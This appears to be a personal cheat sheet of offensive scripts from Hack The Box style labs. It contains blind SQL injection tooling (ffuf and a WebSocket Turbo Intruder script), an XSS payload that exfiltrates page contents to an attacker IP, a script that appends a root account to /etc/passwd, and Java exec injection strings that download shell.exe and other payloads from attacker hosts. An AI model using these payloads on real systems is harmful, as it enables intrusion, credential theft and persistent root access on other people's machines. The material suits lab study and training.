

# Scripts

## SQLi

### Converting Blind Boolean ffuf output to ASCII

`ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73`

<div align="left"><figure><figcaption></figcaption></figure></div>

```bash
cat output | grep '*' > newoutput
```

```python
file=open("newoutput","r")
dic = {}
while True:
    keyv = file.readline()
    if not keyv:
        break
    key = keyv.split(':')[1].replace("\n","").strip()
    valv = file.readline()
    val = valv.split(':')[1].replace("\n","").strip()
    dic[key]=val


l = [0] * len(dic)
for i in range(1,len(dic)+1):
    l[i-1] = dic[str(i)]
text = ''.join(chr(int(value)) for value in l)
print(text)
```

### WebSockets Blind Boolean&#x20;

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```

## JS

### Fetch File via XSS

```javascript
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

### Execute local scripts (Python PrivEsc but for Java)

```
#!/bin/sh
echo 'poopenheimer:$1$KV6ZXL5Y$cCWKY7ne0OdophMjXuNeO/:0:0::/root:/bin/bash' >> /etc/passwd
```

<figure><figcaption></figcaption></figure>

### System process


```
java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.187/shell.exe C:/Windows/Temp/shell.exe"

query=${script:javascript:java.lang.Runtime.getRuntime().exec('wget YOUR_KALI_IP/YOURFILE -O /tmp/YOURFILE')}
```


## Web

### Web Requests and using date in file name

```python
import datetime
import requests
​
t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
​
while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with open(t.strftime('%Y-%m-%d-upload.pdf'), 'wb') as f:
            f.write(resp.content)
    t = t + datetime.timedelta(days=1)
    if t > end:
        break
​
```

## Bash

### Processing all files in a directory

```bash
#!/bin/bash

TARGET_DIR="/home/jtripz/htb/rooms/intelligence/pdfs" # Replace with the actual path

# Check if the directory exists and is a directory
if [ ! -d "$TARGET_DIR" ]; then
  echo "Error: not a valid directory."
  exit 1
fi

# Loop through each item in the directory
for entry in "$TARGET_DIR"/*; do
  # Check if the current item is a regular file
  if [ -f "$entry" ]; then
    echo "Processing file: $entry"
    # Add your desired operations on the file here
  fi
done
```
